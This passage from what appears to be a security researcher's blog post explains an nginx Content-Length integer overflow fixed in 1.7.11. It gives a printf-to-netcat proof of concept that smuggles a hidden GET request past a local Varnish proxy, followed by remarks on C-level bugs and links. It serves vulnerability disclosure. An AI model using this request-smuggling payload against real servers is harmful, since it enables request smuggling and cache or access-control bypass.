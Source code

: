 You could try something like that (here with varnish on port 8080 on 127.0.0.1, with nginx as a backend, and with a POST query containing two hidden queries in the body), try it only at home:

    printf 'POST /could_fail.html HTTP/1.1\015\012'\
    'Host: www.dummy-host.example.com\015\012'\
    'Content-Type: application/x-www-form-urlencoded\015\012'\
    'Content-length: 9000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000015\015\012'\
    '\015\012123456789012345GET /hidden.html HTTP/1.1\015\012'\
    'Host: www.dummy-host.example.com\015\012'\
    '\015\012'\
    'POST /could_fail.html HTTP/1.1\015\012'\
    'Host: www.dummy-host.example.com\015\012'\
    'Content-Type: application/x-www-form-urlencoded\015\012'\
    'Content-Length: 1048570\015\012'\
    'etc..aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa'
    '(... here a quite long filler, something like 500 characters at least because we need varnish'\
    'to start transmission of the body and this requires some inputs...)aaaaaaaaaaaaaaaaaaaaaaaaaaa'\
    'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa'| netcat 127.0.0.1 8080

You can try it with a wireshark and see that Nginx respond to all the queries (or you can check the access logs).

I did not found any malloc error associated with theses integers overflows, but you are free to search that.

My own conclusion would be: C, how is this still a thing :-)

More seriously I find distressing that most web servers are still sensitive to low-level C errors like integer overflows, null strings, etc.

 * [Stay tuned on twitter, @regilero][TWITTER], [@makinacorpus][TWITTERMAK]

[MERCURIAL]: http://hg.nginx.org/nginx/rev/15a15f6ae3a2
[FRENCH]: http://makina-corpus.com/blog/metier/2015/debordement-dentiers-dans-nginx-fixe-en-1-7-11
[NGINX_CHANGES]: http://nginx.org/en/CHANGES
[OPENBSD_HTTPD]: http://www.openbsd.org/papers/httpd-asiabsdcon2015.pdf
[TWITTER]: https://twitter.com/regilero
[TWITTERMAK]: https://twitter.com/makinacorpus

